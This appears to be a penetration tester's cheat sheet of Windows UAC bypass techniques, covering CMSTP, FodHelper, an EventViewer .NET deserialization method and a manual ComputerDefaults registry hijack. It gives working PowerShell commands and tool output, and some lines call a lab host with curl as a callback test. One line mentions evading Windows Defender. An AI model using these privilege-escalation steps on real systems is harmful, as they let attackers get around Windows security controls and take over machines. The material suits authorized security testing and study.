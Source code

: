 ### CMSTP

- Invoke and run: `Bypass-UAC -Command "curl http://192.168.45.223/worked"`

### FodHelper

- uses CurVer to abuse UAC, should bypass Windows Defender (?)

### EventViewer
-- RCE through Unsafe .Net Deserialization in Windows Event Viewer which leads to UAC bypass.

    PS C:\Windows\Tasks> Import-Module .\Invoke-EventViewer.ps1
    
    PS C:\Windows\Tasks> Invoke-EventViewer 
    [-] Usage: Invoke-EventViewer commandhere
    Example: Invoke-EventViewer cmd.exe
    
    PS C:\Windows\Tasks> Invoke-EventViewer cmd.exe
    [+] Running
    [1] Crafting Payload
    [2] Writing Payload
    [+] EventViewer Folder exists
    [3] Finally, invoking eventvwr


### Manual Approach - ComputerDefaults

    New-Item "HKCU:\software\classes\ms-settings\shell\open\command" -Force
    New-ItemProperty "HKCU:\software\classes\ms-settings\shell\open\command" -Name "DelegateExecute" -Value "" -Force
    Set-ItemProperty "HKCU:\software\classes\ms-settings\shell\open\command" -Name "(default)" -Value "C:\Windows\System32\cmd.exe /c curl http://192.168.50.149/worked" -Force
    Start-Process "C:\Windows\System32\ComputerDefaults.exe"
